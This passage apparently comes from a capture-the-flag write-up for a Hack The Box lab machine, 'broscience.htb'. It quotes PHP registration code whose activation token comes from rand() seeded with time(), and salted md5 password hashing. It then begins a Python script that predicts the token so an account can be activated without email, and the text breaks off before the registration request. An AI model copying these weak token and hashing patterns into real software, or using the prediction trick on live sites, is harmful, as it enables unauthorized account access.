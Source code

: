 **register.php**

```php
include_once 'includes/utils.php';
$activation_code = generate_activation_code();
$res = pg_prepare($db_conn, "check_code_unique_query", 'SELECT id FROM users WHERE activation_code = $1');
$res = pg_execute($db_conn, "check_code_unique_query", array($activation_code));

if (pg_num_rows($res) == 0) {
    $res = pg_prepare($db_conn, "create_user_query", 'INSERT INTO users (username, password, email, activation_code) VALUES ($1, $2, $3, $4)');
    $res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));

    // TODO: Send the activation link to email
    $activation_link = "https://broscience.htb/activate.php?code={$activation_code}";

    $alert = "Account created. Please check your email for the activation link.";
}

```
When a user registers, the `generate_activation_code()` function is called, and its result is stored in the database. I will also note the format of the activation link.

**includes/utils.php**

```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

This is vulnerable to a timing attack since the PHP `time()` function returns the number of seconds since January 1 1970 00:00:00 GMT. I can use this function to generate a code and make a request to register a user. If this happens within one second, i should get the same activation code and manage to activate my account.

## Initial access

PHP on Kali linux is compiled without the `curl` library, and that makes it complicated to make http requests, i will hovewer use a python script and call the php function from it
```python
import random
import subprocess
import requests

# add random numbers to make sure username is unique
username = f"jan{random.randint(0, 1000)}"
password= "password"
data = {
    "username": username,
    "email": f"{username}@broscience.htb",
    "password": password,
    "password-confirm": password
}
# get the activation code
code = subprocess.check_output(["php", "generate_code.php"]).decode()

# register
```